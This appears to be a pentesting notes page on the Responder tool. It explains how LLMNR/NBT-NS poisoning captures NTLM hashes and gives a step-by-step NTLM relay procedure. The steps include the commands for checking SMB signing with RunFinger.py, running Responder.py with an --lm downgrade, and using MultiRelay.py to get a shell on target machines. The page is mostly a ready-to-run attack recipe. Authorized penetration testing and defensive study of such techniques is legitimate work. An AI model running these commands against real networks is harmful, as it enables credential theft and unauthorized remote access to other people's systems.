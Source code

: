 # Responder

Responder can capture NTLMv1/v2 hashes and relaying them for authentication to other systems if SMB signing is disabled.

Responder works by listening for LLMNR or NBT-NS broadcast messages, and spoofing responses to targeted hosts, resulting in intercepting hashes we can either pass (relay) to other systems or crack offline.

With its MultiRelay tool, we can relay the hashes to other machines on the LAN and provide us a MultiRelay shell. It can also be used on windows as long as SMB is disabled!

## [[NTLM Relaying]]

1.  Check if SMB signing with sub-tool RunFinger.py  
    `python ./Responder/tools/RunFinger.py -i <target IP>`
    
2.  Set the following values in Responder.conf  
    ```bash
    SMB = Off
    HTTP = Off
    ```
    
3.  Start the Responder and answer to all LLMNR requests + --lm (add downgrade attack)  
    `python ./Responder/Responder.py -I eth0 --lm`
    
4.  In parallel start [[Tools/MultiRelay]] | [[Tools/smbrelayx]] to use found credentials to gain access/info  
    `python ./Responder/tools/MultiRelay.py -t <target IP> -u ALL`



```meta
requirements: 
results: 
oss: #linux
source: https://github.com/lgandx/Responder
description: Responder is an LLMNR, NBT-NS and MDNS poisoner.
```